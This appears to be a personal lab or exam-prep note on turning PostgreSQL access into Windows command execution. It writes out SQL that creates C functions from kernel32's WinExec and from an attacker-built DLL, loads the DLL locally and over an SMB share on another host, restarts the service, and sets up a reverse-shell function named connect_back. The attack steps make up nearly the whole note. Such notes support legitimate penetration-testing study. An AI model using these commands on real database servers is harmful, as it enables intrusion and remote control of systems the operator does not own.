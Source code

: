 Load an extension using the following. 
```
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;


CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');



```

## Steps  Local attack
1. Generate awae.dll using the script. [poc.c Local execution arking.](<poc.c Local execution arking..md>)
2. Create a function
```
# From local machine
create or replace function test(text, integer) returns void as $C:\awae.dll$, $awae$ language C strict;
SELECT test($calc.exe$, 3);


# From remote machine
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $\\192.168.119.120\awae\awae.dll$, $awae$ LANGUAGE C STRICT;
SELECT remote_test($calc.exe$, 3);
```
3. Start/Stop the application. 
	1. `net stop "Applications Manager"`
	2. delete the dll file. DLL file is loaded into the database memory space.
	3. `net start "Applications Manager"`
4. Delete the test function.
	1. `DROP FUNCTION test(text, integer);`
5. Observe calc.exe using tasklist
	1. tasklist |findstr -i calc.exe


## Steps Rev shell
1. Generate payload. [psql poc.c - reverseshell](<psql poc.c - reverseshell.md>)
2. Create a function
```
create or replace function test2(text) returns void as $C:\awae2.dll$, $connect_back$ language C strict;
```
3. Execute the function.
```
select test2('something')
```

4. Python payload.
[Remote execution py](<Remote execution py.md>)